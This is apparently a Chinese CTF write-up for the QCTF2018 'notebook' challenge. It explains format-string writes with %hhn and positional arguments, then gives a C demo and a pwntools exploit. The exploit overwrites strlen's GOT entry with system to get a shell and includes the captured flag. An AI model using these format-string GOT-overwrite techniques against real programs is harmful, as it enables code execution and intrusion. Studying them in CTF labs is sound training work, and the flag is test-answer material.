 # QCTF2018 notebook
## Author: 文火
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这题就是字符串格式化漏洞，常规操作我就不说了，有两点要知道就是：</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>1.**n是改四个字节，hn改两个字节，hhn改一个字节**，所以可以利用这点修改got表为system函数的got表；</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>2.**32位中printf的format里从esp开始的第1个（从0开始数）四个字节为1$，sprintf的第2个为1$。**64位的位置可调试得出，跟32位不一样因为传参规则不同。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>我写了一个demo来表示这题的利用思路，也方便日后复习了，至于这题的脚本[从这](http://invicsfate.cc/2018/07/16/QCTF-xman/)搬运。</font></br>

demo
=========

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

//got address:
//system 0x804a018
//puts   0x804a014

char buf[0x100]={0,};
unsigned int pri_addr=0x804a014;
char* bin="/bin/sh\0";
char* string="%%1$176s%%15$hhn";

int main()
{
	char* ptr=string;
	char BUF[0x100];
	char format[0x20];
	char* string="aaaaaaaa";

	*(unsigned int*)format=pri_addr;

	system("sleep 0.1");
	for(int i=4;i<32;i++)
	  format[i]=*ptr++;
	
	sprintf(BUF,format,string);
	printf(BUF);

	memcpy(buf,bin,8);
	puts(buf);
    //题中可以利用strlen(buf)来getshell。也就是修改strlen的got表。

	return 0;
}
```

Exploit
======

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
#Author:Invicsfate

from pwn import *

# 更正思路,修改strlen函数got表->system，输入/bin/sh，直接调用
# 0x0804A038 -> 080485C0
# payload1 = p32(0x0804A03A)+"%%14$hhn%%4c%%20$hhn"+p32(0x0804A03B)+"22%%119c%%25$hhn"+p32(0x0804A039)+"%%55c%%30$hhn222"+p32(0x0804A038)+"%11c"
# payload2 = "2222"+"%%17$hhn"+p32(0x0804A03A)+"%%20$hhn"+p32(0x0804A03B)+"%%119c"+"22"+"%%25$hhn"+p32(0x0804A039)+"222"+"%%52c"+"%%30$hhn"+p32(0x0804A038)+"%10c"
# QCTF{f0rmat_s7r1ng_is_happy_}

def pwnIt():
	p = process("./notebook")
#	gdb.attach(p)
	p.recvuntil("May I have your name?\n")
	payload = p32(0x0804A03A)+"%%14$hhn%%4c%%20$hhn"+p32(0x0804A03B)+"22%%119c%%25$hhn"+p32(0x0804A039)+"%%55c%%30$hhn222"+p32(0x0804A038)+"%11c"			p.sendline(payload)
	p.recvuntil("on the notebook?\n")
	p.sendline("/bin/sh\x00")
	p.interactive()


if __name__=="__main__":
	pwnIt()
```